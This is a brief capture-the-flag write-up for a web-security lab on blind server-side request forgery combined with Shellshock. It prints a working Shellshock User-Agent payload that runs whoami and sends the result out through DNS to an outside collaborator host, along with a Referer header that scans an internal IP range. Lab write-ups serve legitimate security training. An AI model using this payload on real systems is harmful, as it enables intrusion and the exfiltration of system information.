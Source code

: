 # Blind SSRF with Shellshock exploitation

## This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

## To solve the lab, use this functionality to perform a [blind SSRF]attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

this lab is expert

### step1

add to scope product page and reload
![screenshot](./images/lab7_issue.png)

89fd7z8vrenu0w5mfehbrh7z6qch09oy.oastify.com => this is burpsuite collaborator which is available in pro version
Shellshock exploit systems => () {:;}; /usr/bin/nslookup
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).89fd7z8vrenu0w5mfehbrh7z6qch09oy.oastify.com
Referer: http://192.168.0.§X§:8080/

![screenshot](./images/lab7_payload.png)

![screenshot](./images/lab7_burp_collaborator.png)
